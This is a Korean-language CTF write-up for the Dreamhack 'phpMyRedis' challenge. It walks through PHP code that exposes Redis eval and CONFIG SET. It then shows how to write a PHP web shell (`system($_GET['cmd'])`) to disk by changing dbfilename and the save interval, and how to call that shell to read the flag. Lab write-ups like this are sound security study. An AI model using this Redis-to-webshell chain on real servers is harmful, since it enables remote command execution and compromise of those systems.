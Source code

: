 ```yaml
---
title: "2025-07-25 phpMyRedis"
excerpt: "Redis injection"

categories:
  - Problem
tags:
  - [NoSQL injection]

permalink: /Problem/2025-07-25 phpMyRedis/

toc: true
toc_sticky: true

date: 2025-07-25
last_modified_at: 2025-07-25
---
```


## 🦥 본문

- index.php

```php
<?php 
                    if(isset($_POST['cmd'])){
                        $redis = new Redis();
                        $redis->connect($REDIS_HOST);
                        $ret = json_encode($redis->eval($_POST['cmd']));
                        echo '<h1 class="subtitle">Result</h1>';
                        echo "<pre>$ret</pre>";
                        if (!array_key_exists('history_cnt', $_SESSION)) {
                            $_SESSION['history_cnt'] = 0;
                        }
                        $_SESSION['history_'.$_SESSION['history_cnt']] = $_POST['cmd'];
                        $_SESSION['history_cnt'] += 1;

                        if(isset($_POST['save'])){
                            $path = './data/'. md5(session_id());
                            $data = '> ' . $_POST['cmd'] . PHP_EOL . str_repeat('-',50) . PHP_EOL . $ret;
                            file_put_contents($path, $data);
                            echo "saved at : <a target='_blank' href='$path'>$path</a>";
                        }
                    }
                ?>
                
<?php
                        for($i=0; $i<$_SESSION['history_cnt']; $i++){
                            echo "<li>".$_SESSION['history_'.$i]."</li>";
                        }
                    ?>
```

POST[’cmd’]

- POST 요청에 cmd 값이 포함되면 실행
- 레디스를 실행. `$POST[’cmd’]` 값을 실행 시켜서 보여줌
- 세션에 `history_cnt` 값이 없다면 0으로 할당
- `history_(history_cnt 값)` 으로 `$POST[’cmd’]` 값을 저장
    - 저장 후 `history_cnt` 값 1 증가
    - history_0, history_1… 형태로 저장

POST[’save’]

- POST 요청에 save 값이 포함되면 실행
- ./data/ 폴더 아래에 세션 ID를 해쉬 함수를 통해 해싱하여 파일명으로 파일 저장. 아래와 같이 저장
    
    ```php
    > $POST[’cmd’] 값
    -------------------------------------
    $POST[’cmd’] 명령어 실행 결과 
    ```
    
- 저장된 파일 링크 출력

- config.php

```
 <?php 
                    if(isset($_POST['option'])){
                        $redis = new Redis();
                        $redis->connect($REDIS_HOST);
                        if($_POST['option'] == 'GET'){
                            $ret = json_encode($redis->config($_POST['option'], $_POST['key']));
                        }elseif($_POST['option'] == 'SET'){
                            $ret = $redis->config($_POST['option'], $_POST['key'], $_POST['value']);
                        }else{
                            die('error !');
                        }                        
                        echo '<h1 class="subtitle">Result</h1>';
                        echo "<pre>$ret</pre>";
                    }
                ?>
```

POST[’option’]

- POST 요청에 option 값이 포함되면 실행
- 레디스 실행.
- 사용자가 보낸 값이 GET인 경우에 `redis.config()` 실행
    - CONFIG GET `$_POST['key']` 값 실행
    - 즉 설정 중 `$_POST['key']` 값을 조회
- 사용자가 보낸 값이 SET인 경우
    - CONFIG SET `$_POST['key']` 값, `$_POST['value']` 값 실행
    - 즉 설정 중에 `$_POST['key']` 값을 키로 가지고 `$_POST['value']` 값을 value로 갖는 새로운 설정 입력
- 위의 명령어를 실행한 결과값을 출력

흠… 코드 이해하는 데만 한참 걸렸다. 지금 생각하는 큰 동작 흐름은 이러하다

1. config.php에서 CONFIG SET 을 통해서  파일 경로와 파일명을 설정한다.
    
    ```php
    CONFIG SET dir /tmp
    CONFIG SET dbfilename hack.php
    ```
    
2. index.php에서 $POST[’cmd’]와 $POST[’save’]를 통해 
    
    ```php
    SET 키 값 "<?php system($_GET['cmd']); ?>" 
    SAVE
    ```
    
    위의 코드를 실행 시키고 저장한다.
    
3. 저장된 위치에서 php를 실행시켜서 웹쉘을 실행시켜서 취약점을 탐색한다.

설정한 파일 경로에 있는 php 파일을 실행시킨다.

근데 2번과 같은 코드를 직접 입력하면 false가 출력. 즉 실행하는 데 실패한다

→ eval()의 인자는 lua 스크립트를 실행시키는 용도이므로 다른 방식으로 전달

→ `return redis.call("set", "test", "<?php system($_GET['cmd']); ?>");`

마찬가지로 return redis.call('SAVE')를 입력했는 데 false 가 출력된다

→ SAVE는 lua 스크립트로 실행이 불가하고 직접 호출해야 한다($redis->save();)

세이브만 시키면 되는데…

md5()가 세션 ID로 해싱을 하는 데 세션 ID를 조작하여 파일명을 변경할 수 있게 하면 어떨까라는 발칙한 상상을 해봤다. 하지만 md5()가 단방향 해싱이고 32자리 16진수 해싱을 하기 때문에 못한다는 gpt의 의견이 있었다.

아… Config Set에서 저장 주기를 정할 수 있던 것이었다…….

### 풀이

1. config.php에서 CONFIG SET 을 통해서  파일 경로와 파일명, 저장 주기를 설정한다.
    
    ```php
    CONFIG GET dir        // 현재 저장 경로 조회
    CONFIG SET dbfilename hack.php
    CONFIG SET save 10 1 // save 몇 초안에 몇 개가 생겨야 저장 -> 10초 내 1개 
    ```
    
2. index.php에서 $POST[’cmd’]와 $POST[’save’]를 통해 
    
    ```php
    return redis.call("set", "test", "<?php system($_GET['cmd']); ?>");
    ```
    
    위의 코드를 실행 시키고 저장한다.
    
3. 저장된 위치에서 php를 실행시켜서 웹쉘을 실행시켜서 취약점을 탐색한다.
    - http://host3.dreamhack.games:9158//hack.php?cmd=/flag